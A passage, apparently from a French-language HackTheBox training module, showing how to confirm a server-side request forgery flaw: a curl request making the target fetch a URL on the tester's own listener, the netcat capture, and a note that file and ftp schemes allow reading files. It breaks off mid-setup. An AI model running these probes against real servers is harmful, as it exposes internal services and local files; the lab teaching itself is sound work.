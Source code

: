 #### Curl - Test pour SSRF

  Curl - Test pour SSRF

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT

```

Nous recevrons ce qui suit dans notre écouteur Netcat confirmant la vulnérabilité SSRF via une requête émise par le serveur cible à l'aide de [Python-urllib](https://docs.python.org/3.8/library/urllib.html) :

#### Netcat Listener - Confirmation de SSRF

  Netcat Listener - Confirmation de SSRF

```
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <VPN/TUN Adapter IP>:8080
User-Agent: Python-urllib/3.8
Connection: close

```

En lisant la documentation [Python-urllib](https://docs.python.org/3.8/library/urllib.html)`file` , nous pouvons voir qu'il prend en charge , `http`et `ftp`les schémas. Ainsi, en plus d'émettre des requêtes HTTP à d'autres services au nom de l'application cible, nous pouvons également lire des fichiers locaux via le `file`schéma et des fichiers distants à l'aide de `ftp`.

Nous pouvons tester cette fonctionnalité en suivant les étapes ci-dessous :

1.  Créez un fichier appelé index.html

Code : html

```
<html>
</body>
<a>SSRF</a>
<body>
<html>

```

1.  Dans le répertoire où se trouve index.html, démarrez un serveur HTTP à l'aide de la commande suivante

#### Démarrer le serveur HTTP Python
